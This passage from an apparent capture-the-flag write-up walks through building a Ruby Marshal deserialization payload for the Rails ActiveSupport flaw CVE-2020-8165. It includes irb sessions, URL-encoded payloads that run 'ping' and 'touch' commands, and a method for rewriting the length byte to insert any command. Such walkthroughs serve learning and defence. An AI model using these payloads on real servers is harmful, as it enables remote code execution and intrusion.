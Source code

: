 

The next line in the POC will cause an error, because `payload` isn't a
command. It works if I add an `=` between `payload` and `Marshal`:



    irb(main):006:0> payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
    => "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\"\x1C`ping -c 1 10.10.14.19`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:\f@linenoi\x06:\f@method:\vresult:\t@varI\"\f@result\x06;\tT:\x10@deprecatorIu:\x1FActiveSupport::Deprecation\x00\x06;\tT"



Now I'll use the `uri` module to encode and print the payload:



    irb(main):010:0> require 'uri'
    => false
    irb(main):011:0> puts URI.encode_www_form(payload: payload)
    payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%1C%60ping+-c+1+10.10.14.19%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
    => nil



#### Modifying POC

I can get to the same result with a little bit of understanding of how
serialized objects tend to work. The output from [the POC on
GitHub](https://github.com/masahiro331/CVE-2020-8165) with a payload of
`touch /tmp/rce` was this:



    %04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T



I'm particularly interesting in the part around the command:



    srcI%22%15%60touch+%2Ftmp%2Frce%60



A serialized payload often includes the length of the object and the
contents. So I'd expect something that's related to length (in this case
14 bytes), which could be that 0x22 or 0x15. In the payload I generated
with `ping`, the payload was 21 characters long, and the 0x15 byte is
not an 0x1c, where the 0x22 is unchanged. It looks like that 0x15 or
0x1c is the length of the given string plus 7.

Now I can generate new payloads by replacing the command string and the
length byte (after adding 7).
